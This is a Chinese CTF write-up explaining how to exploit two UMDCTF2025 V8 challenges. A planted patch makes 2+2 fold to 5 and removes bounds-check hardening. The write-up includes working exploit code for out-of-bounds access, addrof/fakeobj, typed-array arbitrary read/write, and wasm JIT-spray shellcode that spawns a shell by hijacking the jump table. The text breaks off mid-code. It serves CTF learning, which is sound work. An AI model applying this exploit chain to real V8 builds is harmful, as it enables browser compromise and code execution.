# 【V8】UMDCTF2025 literally-1984/1985 WriteUp-先知社区

> **来源**: https://xz.aliyun.com/news/18274  
> **文章ID**: 18274

---

## 前言

又是很久没有写文章了，终于一两天有空补一下前面几个月的坑。

本文是关于**UMDCTF2025**的两道V8-CTF题目的解题思路分享。由于1984本身存在非预期解， 1985本质只是1984的临时修复版。如果只考虑从patch出发的解题思路，其实并没有什么区别。

## literally-1984的非预期解

既然存在非预期，我们就稍微提一下。如果对比一下两个题目的patch文件，就能发现一些特点



其实就是注释掉了一些全局的JS接口，这里我一个非预期exp仅供参考

```
let content = read('/flag');
print(content);
```

## literally-1985 Patch 分析

首先来看一下patch的核心部分，其实也就是1984的patch内容

### Part 1

```
diff --git a/src/compiler/machine-operator-reducer.cc b/src/compiler/machine-operator-reducer.cc
index 2da3715a58f..e6896555188 100644
--- a/src/compiler/machine-operator-reducer.cc
+++ b/src/compiler/machine-operator-reducer.cc
@@ -1101,6 +1101,11 @@ Reduction MachineOperatorReducer::ReduceInt32Add(Node* node) {
   DCHECK_EQ(IrOpcode::kInt32Add, node->opcode());
   Int32BinopMatcher m(node);
   if (m.right().Is(0)) return Replace(m.left().node());  // x + 0 => x
+
+  if (m.left().Is(2) && m.right().Is(2)) {
+    return ReplaceInt32(5);
+  }
+
   if (m.IsFoldable()) {  // K + K => K  (K stands for arbitrary constants)
     return ReplaceInt32(base::AddWithWraparound(m.left().ResolvedValue(),
                                                 m.right().ResolvedValue()));
```

首先修改了`machine-operator-reducer.cc`中的`Reduction MachineOperatorReducer::ReduceInt32Add(Node* node){}`。查看v8的源代码内容结合函数名称，我们大概能明白，这个部分是用来优化简化int32类型的算术加法



也就是说，patch本质上是加了一条**2 + 2 => 5**的优化操作，当左右两个节点的值都为2时，直接被替换为数字5.

### Part 2

```
diff --git a/src/compiler/simplified-lowering.cc b/src/compiler/simplified-lowering.cc
index 4cc858bb22c..1e0056e7130 100644
--- a/src/compiler/simplified-lowering.cc
+++ b/src/compiler/simplified-lowering.cc
@@ -1993,7 +1993,7 @@ class RepresentationSelector {
             // The bounds check is redundant if we already know that
             // the index is within the bounds of [0.0, length[.
             // TODO(neis): Move this into TypedOptimization?
-            if (v8_flags.turbo_typer_hardening) {
+            if (v8_flags.turbo_typer_hardening && 2 + 2 == 5) {
               new_flags |= CheckBoundsFlag::kAbortOnOutOfBounds;
             } else {
               DeferReplacement(node, NodeProperties::GetValueInput(node, 0));
```

Patch的第二个部分修改了对于index越界访问的校验。从注释我们也能明白

> The bounds check is redundant if we already know that the index is within the bounds of [0.0, length[.
>
> 如果我们已经知道index访问的范围在0.0 - length之间，那么边界检查就比较多余了

重点在于`if (v8_flags.turbo_typer_hardening) {` ==> `if (v8_flags.turbo_typer_hardening && 2 + 2 == 5) {`

由于第一个patch影响的是turbofan优化的Javascript层面的2+2，而这里源代码的2+2=5是不受影响的。也就是说，这个if判断变为了一个恒为**False**的情况，使得new\_flags永远不会拥有**CheckBoundsFlag::kAbortOnOutOfBounds**标志位。

> **CheckBoundsFlag::kAbortOnOutOfBounds**：告诉编译器在访问数组时如果发现索引越界，应立即“强制终止”（abort）程序，而不是继续执行或返回默认值。
>
> * 具体作用流程：
>
> * 需要对某个数组访问加一个边界检查；
> * 如果发现数组索引超出了范围；
> * 那就 **触发一个安全终止（abort）**，而不是容忍它或 fallback 到解释器。

总体来说，这段patch就是防止了程序从越界访问时触发错误终止。

## 2+2=5?

分析完了Patch，我们很显然能够意识到，出题人为我们提供了一个数组越界的风险。那么接下来就需要尝试构造并验证**2+2=5**，最终实现数组越界的效果。

直观来想，我构造的第一个poc函数如下:

```
function foo() {
    let idx;
    let a=2, b =2;
    let victim = [1.1, 2.2, 3.3, 4.4];
    
    for(let i = 0; i< 10000; i++) {
        idx = a + b;
    }
    return victim[idx];
}
```

并通过在外层主流程循环调用来触发Turbofan优化

```
for(let i = 0; i< 10000; i++) {
    foo();
}
```

如下图：





能够成功的泄露内存值，为了更进一步查看泄露的内存值，略微修改函数返回值

```
...
 return [idx, victim[idx], victim];
...
```

关注红框的内容，可以看到最下面的输出时idx = 5 以及leak的内存信息



同时由于elements的内存布局，这里泄露的值恰好为**JSArray**对象的**map**和**properties**域。到此为止，我们便可以正式开始漏洞利用的过程。

## 错误的AAR & AAW

我们知道，V8对于数组越界的判断是基于计算一个索引属于[x, y]这样的集合上下界来判断的。我们已经有了能够让**2+2 => 5**的能力，从而实现短距越界的效果。如果想要任意地址读或者任意地址写，最好的办法便是扩大越界范围，以修改elements导向，从而实现任意地址读写。

```
function foo() {
    let idx;
    let a=2, b =2;
    let victim = [1.1, 2.2, 3.3, 4.4, 5.5];
    
    for(let i = 0; i< 10000; i++) {
        idx = a + b;
        idx = idx - 2; // 4-2 => 2 ; 5-2 => 3
        idx = idx * 2; //2*2 => 4; 3*2 => 6
    }
    
    return [idx, victim[idx], victim];
}
```

只需简单的借助乘法便可以实现对于elements的越界访问



如果此时覆盖elements到指定地址，便可轻易实现AAW与AAR，如下

```
//前面的其余数据处理函数省略掉
...
function foo(target = 6.6) {
    let idx;
    let a=2, b =2;
    let victim = [1.1, 2.2, 3.3, 4.4, 5.5];
    
    for(let i = 0; i< 10000; i++) {
        idx = a + b;
        idx = idx - 2; // 4-2 => 2 ; 5-2 => 3
        idx = idx * 2; //2*2 => 4; 3*2 => 6
    }
    
    victim[idx] = target;
    return [idx, victim[idx], victim];
}

foo();

for(let i = 0; i< 10000; i++) {
    foo();
}
res = foo(i2f(0xdeadbeefn));

%DebugPrint(res[2]);
console.log(res[0], hex(f2i(res[1])));

%SystemBreak();
```



写到这里时，我天真得以为这样就可以轻松实现任意地址读写，然而实际是这样的


本质是由于增添了一个CHECK，用来校验elements对象的map是否符合预期。如果顺利的话我会在下一篇文章中具体分析，并尝试提出新的通用利用链。（因为elements的校验会影响fake\_array的伪造，使得常用的基于fake\_array的任意地址读写手法无法正常运行）

## From JSTypedArray to AAR & AAW

我在Discord上看到了一个比较巧妙的优化方式来自@white701



```
function foo(x) {
    return x + x;
}
...
function test() {
    let res=0;
    for (let i = 0; i < 1000; ++i) {
        res = foo(2);
    }
    let corrupting_array = [0.1, 0.1];
    let corrupted_array = [0.1,0.1,0.1];
    let buf_array = [{}];
    overwrite = ftoi(corrupting_array[(res-4)*7]) + 0x1000_0000_0000n;
    corrupting_array[(res-4)*7] = itof(overwrite); //overwirte corrupted_array --> length
    overwrite = ftoi(corrupting_array[(res-4)*2]) + 0x1000_0000_0000n;
    corrupting_array[(res-4)*2] = itof(overwrite); //overwrite corrupted_array --> elements --> length 
    return [corrupted_array, buf_array];
}
...
let o;
for (let index = 0; index < 1000; index++) {
    
    o = test();
    if (o[0].length != 3) break;
}
```

通过越界更改corrupted\_array的length和corrupted\_array.elements的length，而并非更改elements指针的指向。从而可以使得corrupting数组稳定的越界buf\_array对象数组。另外，在外层循环通过`if (o[0].length != 3) break;`来定位优化完成的时刻。

> 因为如果test没有正确进行Turbofan优化，其中的赋值语句显然不会更改corrupted\_array的长度。

自然的，有了这样o[0]和o[1]这样稳定的越界读写对象数组，`GetAddressOf()`和`GetFakeObject()`的实现就显的很轻松了

```
function addrof(obj) {
    o[1][0] = obj;
    return ftoi(o[0][9])>>32n;
}

function fakeobj(addr) {
    o[0][9] = itof((addr<<32n) + 2n);
    return o[1][0];
}
```

在无法正常使用**fake\_array**的情况下，我们应当如何实现AAW或者AAR原语，这里就要用到标题中提到的**JSTypedArray**，先来看看对象结构:

```
let leakArr = new Float64Array(1);
%DebugPrint(leakArr);
%SystemBreak();
```

简要信息如下：

```
DebugPrint: 0x24c10007a331: [JSTypedArray]
...
 - elements: 0x24c10007a321 <ByteArray[8]> [FLOAT64ELEMENTS]
 - buffer: 0x24c10007a2e9 <ArrayBuffer map = 0x24c10018be75>
 - byte_offset: 0
 - byte_length: 8
 - length: 1
 - data_ptr: 0x24c10007a328
   - base_pointer: 0x7a321
   - external_pointer: 0x24c100000007
 - properties: 0x24c100000745 <FixedArray[0]>
 - elements: 0x24c10007a321 <ByteArray[8]> {
           0: 0
 }
pwndbg> x/20wx 0x24c10007a331-1
0x24c10007a330: 0x00182b35      0x00000745      0x0007a321      0x00000000
0x24c10007a340: 0x0007a2e9      0x00000010      0x00000000      0x00000000
0x24c10007a350: 0x00000008      0x00000000      0x00000001      0x00000000
0x24c10007a360: 0x00000007      0x000024c1      0x0007a321      0xbeadbeef
0x24c10007a370: 0xbeadbeef      0xbeadbeef      0xbeadbeef      0xbeadbeef
```

其中**data\_ptr**指向的便是数据存储的直接存储空间，目标地址无需满足特定对象结构，且**data\_ptr = base\_pointer + external\_pointer**。

> 具体来讲data\_ptr有时与elements相关，有时与buffer相关，取决于当前的存储是**inline**还是**external**。如果顺利的话这段具体的详情，我们也放到下一篇文章内。
>
> 小小吐槽：写到这里突然发现欠了很多文章没有完成，只能慢慢补了

且**base\_pointer**和**external\_poniter**的完整信息都存储在对象内存结构内，那么我们只要利用越界读写，覆盖这两个域。便能够控制**data\_ptr**指向任意原始指针范围，从而实现64bit的任意地址读写。

那么AAW和AAR也就呼之欲出了:

```
let leakArr = new Float64Array(1);
function arb_read(addr) {
    if (addr % 2n == 1n) {
      addr -= 1n;
    }
    addr -= 7n;
    o[0][58] =  itof((ftoi(o[0][58])&0xffffffff00000000n) + addr);//覆盖leakArr-->base_pointer

    return ftoi(leakArr[0]);
}

function arb_write(addr, data) {
    if (addr % 2n == 1n) {
      addr -= 1n;
    }
    addr -= 7n;
    o[0][58] =  itof((ftoi(o[0][58])&0xffffffff00000000n) + addr);//覆盖leakArr-->base_pointer

    leakArr[0] = itof(data);
}
```

这里的58偏移需要具体通过`%DebugPrint()`来计算具体偏移值是多少即可。这里的`-7n`就是为了和**external\_pointer**做累加实现堆内的任意地址读写。因为后面只需要更改**wasm.Instance**对象的跳转表，所以堆内任意地址读写就已经足够。

## 控制执行流

> 这里我对原作者的EXP做了一些更改和优化，因为利用并不需要他写的这么复杂，在文末我会放出优化后的完整EXP和原EXP以供参考

这里使用的shellcode是return浮点数利用Turbofan优化后的汇编码，可以看这条：[JIT-Spary](https://www.matteomalvica.com/blog/2024/06/05/intro-v8-exploitation-maglev/#jit-spraying-shellcode)

```
let shell_wasm_code = new Uint8Array([
    0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0,
    1, 7, 17, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 133, 1, 1,
    130, 1, 0, 65, 0, 68, 0, 0, 0, 0, 0, 0, 0, 0, 57, 3, 0, 65, 0, 68, 106, 59, 88, 144, 144, 144,
    235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 115, 104, 0, 91, 235, 11, 57, 3, 0, 65, 0, 68, 104, 47, 98,
    105, 110, 89, 235, 11, 57, 3, 0, 65, 0, 68, 72, 193, 227, 32, 144, 144, 235, 11, 57, 3, 0, 65, 0,
    68, 72, 1, 203, 83, 144, 144, 235, 11, 57, 3, 0, 65, 0, 68, 72, 137, 231, 144, 144, 144, 235, 11,
    57, 3, 0, 65, 0, 68, 72, 49, 246, 72, 49, 210, 235, 11, 57, 3, 0, 65, 0, 68, 15, 5, 144, 144, 144,
    144, 235, 11, 57, 3, 0, 65, 42, 11,
]);
let shell_wasm_module = new WebAssembly.Module(shell_wasm_code);
let shell_wasm_instance = new WebAssembly.Instance(shell_wasm_module);
let shell_func = shell_wasm_instance.exports.main;
```

我们来看看这个版本下的**Instance**结构



进一步查看**trusted\_data**



其实与RWX段有关的代码只有**jump\_table\_start**，查看对应的汇编代码就能看到熟悉的东西了。即函数的lazy binding结构，类似于glibc的plt-got结构。

> **注：下图地址与上图不太一样，因为不是一次gdb的截图，但是都是对应默认的jump\_table\_start**



可以看到，**jump\_start\_table**最终索引到了`WasmCompileLazy()`函数（可以理解为类似glibc的`libc_runtime_resolve()`），关于这个结构的具体运作机理，我会在下一篇文章中详细介绍，这里我只说明利用方法。

### 1. 寻找真实汇编地址

首先需要正常调用一次函数，然后利用`%DebugPrint()`找到函数的真实代码地址（也就是懒加载后的地址）

```
shell_func();
%DebugPrint(shell_wasm_instance);
%SystemBreak();
```

经过懒加载后，代码的**start\_jump\_table**内容就会直接跳转真实代码地址，如图:



上图中的`0x8cb91817000`便是**WasmTrustedInstanceData.jump\_table\_start**，可以明显的看到代码此时已经变为了我们的浮点shellcode

### 2. 记录shellcode偏移

计算浮点shellcode距离原始**jump\_table\_start**的偏移，例如这里便是`0x89c`

```
pwndbg> p/x 0x8cb9181789c - 0x8cb91817000
$1 = 0x89c
```

利用`addrof()`和`arb_read()`进行对应的内存泄露

```
let shell_wasm_instance_addr = addrof(shell_wasm_instance);
console.log("Shell WASM instance addr: 0x" + shell_wasm_instance_addr.toString(16));
let shell_wasm_trusted_data_addr = arb_read(shell_wasm_instance_addr + 0x8n)>>32n;
console.log("Shell WASM trusted data addr: 0x" + shell_wasm_trusted_data_addr.toString(16));
let jump_table_start_addr = arb_read(shell_wasm_trusted_data_addr + 0x28n);
console.log("Jump Table Start addr: 0x" + jump_table_start_addr.toString(16));
let shell_code_addr = jump_table_start_addr + 0x89cn;
console.log("Shell code addr: 0x" + shell_code_addr.toString(16));
```



### 3. 覆盖start\_jump\_table

此时需要覆盖**start\_jump\_table**为真实shellcode地址.

> **但是需要注意，也是这一步最重要的信息**: 需要在调用之前就需要将其中内容覆盖为真实shellcode地址，一旦函数不是初次调用，那么这里的覆盖将不会起到引导程序流的作用。具体逻辑将在下一篇文章详细讨论，也就是说，整体JS逻辑应该如下，第一次调用wasm函数就应当是已经进行过地址覆盖的情况:

```
let shell_wasm_code = new Uint8Array([
    0, 97, 115, 109, 1, 0, 0, 0, 1, 5, 1, 96, 0, 1, 127, 3, 2, 1, 0, 4, 4, 1, 112, 0, 0, 5, 3, 1, 0,
    1, 7, 17, 2, 6, 109, 101, 109, 111, 114, 121, 2, 0, 4, 109, 97, 105, 110, 0, 0, 10, 133, 1, 1,
    130, 1, 0, 65, 0, 68, 0, 0, 0, 0, 0, 0, 0, 0, 57, 3, 0, 65, 0, 68, 106, 59, 88, 144, 144, 144,
